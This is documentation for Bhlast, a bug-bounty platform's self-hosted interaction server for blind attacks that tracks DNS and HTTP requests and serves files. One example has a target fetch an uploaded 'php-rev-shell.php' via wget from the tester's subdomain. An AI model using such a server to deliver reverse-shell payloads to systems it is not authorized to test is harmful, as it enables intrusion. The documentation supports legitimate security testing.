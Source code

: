﻿# Bhlast

## Motivation

Blind attacks are somewhat difficult, since you have to have a server that will listen to interactions.

Burp collaborator is a great way to listen to interactions, but if you want your server to listen to interactions even when you are not hacking, you have to use some other site.

ProjectDiscovery published an amazing tool called [interactsh](https://github.com/projectdiscovery/interactsh), which allows you to self-host it to leverage some features.

Since this platform is meant to eliminate as much of the boring work that you need to do in order to be successful, and to work on the stuff while you are not hacking, having this functionality is a **must**.

Therefore, I decided to learn from their implementation, and start building it. The new implementation is not feature complete. It only supports DNS and HTTP(s) protocols. This is good enough to get started, and the rest will be added as needed.

::alert{type="info"}
Thank you to ProjectDiscovery for open-sourcing this great tool! Bhlast implementation is heavily influenced by your work!
::

## How it works?

New server is registered behind the [bhlast.com](https://bhlast.com) domain.

In order to create your unique server, you have to have an account on the [BountyHub](https://bountyhub.org) platform.

Each server gets random subdomain unique to your account. In order to avoid having spam notifications, please do not share your
`bhlast` server publically. Every interaction with this server will be tracked, and you will get notified for no good reason.

Server is listening on following:

::list{type="primary"}

- HTTP (TCP port 80)
- HTTPS (TCP port 443)
- DNS (TCP and UDP port 53)
- Serve static files
- Get notified on interactions
  ::

## Default behavior

To track interactions per user, each user will get unique
subdomain. Everything associated with that subdomain, or
subdomain of that subdomain will be tracked for your account.

### HTTP

When you visit the [bhlast.com](https://bhlast.com), static page will be displayed. This static page is only used to point you to the documentation, and to show basic information about this server.

The `bhlast.com` supports both HTTP and HTTPS. The same
server will be used to serve custom responses (soon), and
to serve static files. As with everything, if notifications
are configured, each interaction will issue a notification.

### DNS

The DNS server is created not only to track DNS
interactions, but also to provide a configurable way
you can use to serve CUSTOM DNS records.

For example, let's say your ID is `ng3iqaju5npgoeuo`.

Each interaction with `ng3iqaju5npgoeuo.bhlast.com` will
be recorded. However, let's say you want to create a
DNS record that will serve address for localhost.

You can create a subdomain with `A` record to point to
`127.0.0.1`. Let's call that record `localhost`. Now,
when `localhost.ng3iqaju5npgoeuo.bhlast.com` is requested,
the interaction will be tracked and the `A` record will
be served, pointing to `127.0.0.1`.

Learn more about how to configure the DNS server [here](/bhlast/config#dns).

## Server registration and configuration

### Registration

Once you are logged into the platform, on the right drawer, you will see tab named `Bhlast servers`. Click on it.

![Bhlast servers](/drawer-bhlast.png)

On top of the page, you will see `Register Server` button. Click on it, and you will be taken to the registration page.

## Working with your server

Your `bhlast` server can be used to:

- Track interactions
- Serve files
- Standard responses

### Tracking interactions

Interactions are shown for each request that is associated with your subdomain. The `[id]` portion of your subdomain is
the identifier used to associate interaction with it. In other words, let's say your subdomain is `lwwhkmc4n2ziyu3d`. Then
all traffic directed to `lwwhkmc4n2ziyu3d.bhlast.com` and `*.lwwhkmc4n2ziyu3d.bhlast.com` is registered associated with your
server.

![Bhlast logs](/bhlast-log.png)

### Serving files

Your server can also be used as a file server. Think of it as `python3 -m http.server 80`, but listening both on port 80 and 443.

In order to serve file, route `/-/` is exposed for that purpose.

As an example, let's say your server is located at `lwwhkmc4n2ziyu3d.bhlast.com`. You uploaded a `php-rev-shell.php`.
You can retrieve it by running `wget https://o66322a9ufqn02o0.bhlast.com/-/php-rev-shell.php`. The important thing to note
is that the interaction on your file server is also tracked, so you can later prove that server pulled the file.

### Standard responses

By default, subdomain reversed will be served as a string. However, there are special cases to change format
of responses.

| Path                     | Response format                                                        |
| ------------------------ | ---------------------------------------------------------------------- |
| Path ending with `.xml`  | The result will be in format `<data>[reverse subdomain string]</data>` |
| Path ending with `.json` | The result will be in format `{"data": "[reverse subdomain string]"}`  |
| `/robots.txt`            | `User-agent: *\nDisallow: / # [reverse subdomain string] `             |

## Rate limits

To avoid misuse or malicious use of bhlast servers, the rate limiter is implemented.

| Server type | Global rate limit / s | Per IP rate limit / s |
| ----------- | --------------------- | --------------------- |
| DNS         | 5000                  | 10                    |
| HTTP(s)     | 5000                  | 20                    |

Furthermore, if the number of questions in a DNS query exceeds 8, the DNS request will be rejected completely.
This should reduce DNS amplification attacks.
